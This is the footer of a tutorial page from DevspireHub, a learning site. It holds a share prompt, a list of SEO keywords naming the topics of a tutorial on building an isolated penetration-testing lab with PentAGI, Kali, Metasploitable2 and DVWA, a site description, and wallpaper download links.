Found this tutorial helpful? Share it with your team, bookmark it for your next lab session, and check out our guides on Nmap for Beginners.
Keywords: PentAGI setup guide | isolated penetration testing lab | Kali Linux VirtualBox Metasploitable2 | AI pentest agent tutorial | free hacking lab for beginners | DVWA Docker setup Kali | autonomous penetration testing AI | PentAGI Ollama local LLM | ethical hacking lab 2026 | Metasploitable2 exploit practice | vsftpd backdoor CVE-2011-2523 | SQL injection DVWA sqlmap | VirtualBox host-only network setup | Docker pentest environment | automated recon AI agents
About Website
DevspireHub is a beginner-friendly learning platform offering step-by-step tutorials in programming, ethical hacking, networking, automation, and Windows setup. Learn through hands-on projects, clear explanations, and real-world examples using practical tools and open-source resources—no signups, no tracking, just actionable knowledge to accelerate your technical skills.
Color Space
Discover Perfect Palettes
Featured Wallpapers (For desktop)
Download for FREE!
.png)
.png)
.png)
.png)
.png)
.png)
Featured Wallpapers (For desktop)
Download for FREE!